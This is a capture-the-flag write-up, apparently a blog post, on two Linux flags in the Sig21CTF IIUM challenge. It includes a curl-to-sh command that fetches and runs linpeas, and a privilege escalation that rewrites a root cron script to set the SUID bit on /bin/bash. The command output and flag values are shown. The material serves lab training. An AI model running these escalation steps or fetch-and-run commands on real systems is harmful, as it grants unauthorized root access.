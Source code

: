 ```yaml
---
title: Linux Sig21CTF IIUM
date: 2022-01-16
categories: [sig21ctf-IIUM, Linux]
tags: [priv-esc, ctf, linux, mis-config]     # TAG names should always be lowercase
---
```

### Linux Sig21CTF 

#### Flag 1.

```bash
nc localhost 1337
ls -lah 
drwxr-xr-x 1 linuxuser linuxuser 4.0K Mar 31 05:32 .
drwxr-xr-x 1 root      root      4.0K Mar 31 05:31 ..
-rw-r--r-- 1 linuxuser linuxuser  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 linuxuser linuxuser 3.7K Feb 25  2020 .bashrc
-rw-r--r-- 1 linuxuser linuxuser  807 Feb 25  2020 .profile
-rwxr--r-- 1 linuxuser linuxuser  102 Mar 30 11:20 backup.sh
-rwxr--r-- 1 linuxuser linuxuser   58 Mar  3 06:04 lin001.sh
-rwxr--r-- 1 linuxuser linuxuser  116 Mar 31 05:32 socatrun.sh
```
As we can see there's no flag here, So where's the flag??
looking at the question hint we noticed that there's a need to the `find` the flag in /usr directory

```bash
find /usr -user linuxuser 2>/dev/null
/usr/lib/apt/flag1.txt
cat /usr/lib/apt/flag1.txt
flag1: sig21CTF{44bfb2de767c19df0b050ca8053255ee}

```

#### Flag 2.

We download linpeas.sh to check if there's any PE vector
``` bash 
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
looking at the ouput we can see something kinda odd. <br> ![img](/assets/img/sig21ctf/linux/lin002/flag_2.png)

So we basically have access to edit a cron file run by root in our home directory.. seems to be easy priv esc, all i do was add +s to /bin/bash. so now i run /bin/bash with full root priv

```bash
echo '#!/bin/bash' > backup.sh
echo 'chmod +s /bin/bash' >> backup.sh
linuxuser@778514d661d9:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
linuxuser@778514d661d9:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
/bin/bash -p && id 
uid=1000(linuxuser) gid=1000(linuxuser) euid=0(root) egid=0(root) groups=0(root)
cat /root/flag2.txt
flag2: sig21CTF{ebfef6e97d2816fb6fc16aee68f62bf2}
```
Thanks and i hope this helps :)
